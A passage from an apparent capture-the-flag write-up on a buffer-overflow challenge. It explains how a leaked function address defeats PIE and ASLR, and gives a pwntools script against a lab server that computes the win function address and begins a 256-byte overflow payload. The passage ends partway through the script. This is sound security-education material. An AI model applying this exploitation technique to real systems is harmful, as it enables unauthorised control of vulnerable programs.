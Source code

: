 So, what makes this one different from the previous challenge? We can identify this by checking the protections enabled for the binaries using `checksec`.

```
$ checksec ./materials-TryPwnMeOne/TryRetMe/tryretme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

$ checksec ./materials-TryPwnMeOne/RandomMemories/random
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

As we can see, previously `PIE` (Position-Independent Executable) was not enabled. This means that when the binary runs, it is loaded at the same memory address each time (`0x400000`).

However, with `PIE` enabled and `ASLR` (Address Space Layout Randomization) in effect, the binary is loaded at a random memory address each time it runs. This makes it difficult to predict where the `win` function will be located, preventing us from directly overwriting the return address with it.

So, how can we address this issue? Fortunately, right before reading our input, the binary prints the address of the `vuln` function.

```c
printf("I can give you a secret %llx\n", &vuln);
```

The binary will be loaded into a different, random memory address each time it runs, but it is still the same binary. This means that if we know the address of the `vuln` function and its offset in the binary (which we can easily determine since we have the binary), we can calculate the base address where the binary is loaded. With this information, we can also determine the addresses of any other functions in the binary and exploit it in the same way as before.

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF("./materials-TryPwnMeOne/RandomMemories/random", checksec=False)

r = remote("10.10.74.205", 9007)

r.recvuntil(b"I can give you a secret ")
vuln_address = int(r.recvline().rstrip().decode(), 16)  # parse the printed address of the vuln function
print(f"[+] Got the vuln function address: {hex(vuln_address)}")

binary_base_address = vuln_address - binary.symbols["vuln"] # calculate the base address the binary is loaded
print(f"[+] Calculated the binary base address: {hex(binary_base_address)}")

binary.address = binary_base_address    # set the binary base address to match the process's memory layout

win_address = binary.symbols["win"]
print(f"[+] Calculated the win function address: {hex(win_address)}")

rop = ROP(binary)
ret = rop.find_gadget(["ret"])[0]

payload = b"A" * 256                # offset to the RBP
```